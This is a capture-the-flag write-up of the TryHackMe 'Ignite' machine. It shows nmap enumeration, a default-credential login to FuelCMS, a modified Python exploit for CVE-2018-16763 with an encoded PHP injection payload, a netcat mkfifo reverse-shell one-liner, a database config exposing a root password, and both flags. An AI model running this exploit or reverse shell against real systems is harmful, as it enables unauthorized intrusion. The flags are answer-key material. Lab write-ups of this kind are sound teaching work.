 # Ignite Write-up

I started off this CTF by doing some basic enumeration scans.

## Port Scan:

I performed the following port scan:
	
```
sudo nmap -vv -sS -sV -sC -oN nmap_out 10.10.62.131
```

I got only 1 port from the scan:
	
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
```

## Site Exploration:
	
I opened the Machine_IP in my browser:
	
![Home Page](./screenshots/homepage.png)

It looks like it is a content-management site hosted by FuelCMS(v1.4).

Scrolled down, found this:
	
![Default Credentials](./screenshots/defaultlogin.png)

Tried logging in to http://{MACHINE_IP}/fuel with the above credentials:
	
![Login Attempt](./screenshots/login.png)

And success! We are in the admin dashboard!

![dashboard](./screenshots/CMSdashboard.png)

I looked for exploits related to FuelCMS. I found a vulnerablilty for Remote Code Execution: **CVE-2018-16763**. You can see it [here.](https://www.exploit-db.com/exploits/47138)

I made some modifications to the original code:
	
```python
import requests
import urllib

tryhackmeip = raw_input('Please enter your TryHackMe machine\'s IP Address:')
url = "http://" + tryhackmeip

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	#proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url) #proxies=proxy)

	cleaned_text = r.text.split('<div style=')[0]
	cleaned_text = cleaned_text.split('system')[1]

	print cleaned_text
```

I tested it out with a **pwd** command:
	
```
~/tryhackme/ignite$ python 47138.py 
Please enter your TryHackMe machine's IP Address:10.10.62.95
cmd:pwd
/var/www/html


cmd:
```

It works! Now I'm going to see if I can get a reverse shell with this exploit.


I set up a NetCat listener on my local PC on port 1234:
	
```
nc -nvlp 1234
```

I then typed the following into the python cmd prompt:
	
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {THM_VPN_IP} 1234 >/tmp/f
```

And I got a reverse shell!

I typed **cd /home/www-data** and performed an **ls** command. I saw a file called **flag.txt**

Here are the contents:
	
```
6470e394cbf6dab6a91682cc8585059b
```

That is our user flag! Now I will try to get root!

I tried to perform a **sudo -l** command, but it did not work without a password.

I then did a search on all files with the SUID set:
	
```
find / -type f -perm /4000 2>/dev/null
```

It returned the following:
	
```
/usr/sbin/pppd
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/vmware-user-suid-wrapper
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/passwd
/bin/su
/bin/ping6
/bin/ntfs-3g
/bin/ping
/bin/mount
/bin/umount
/bin/fusermount
```

I could not find any privilege escalation vectors there.

I then remembered something I saw on the homepage:
	
![database access](./screenshots/databaseaccess.png)

So I **cd**'d into the **/var/www/html/fuel/application/config** directory. Then I looked at the **database.php** file (I'm only showing the relevant section):

```php
<
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);

```

It lists root's password as **"mememe"**

I then tried the **su -** command with this password, and it worked! I am now root!

I looked in the **/root** directory, and fount the **root.txt** file:
	
```
b9bbcb33e11b80be759c4e844862482d
```

That's the root flag! I hope you found this helpful!	
























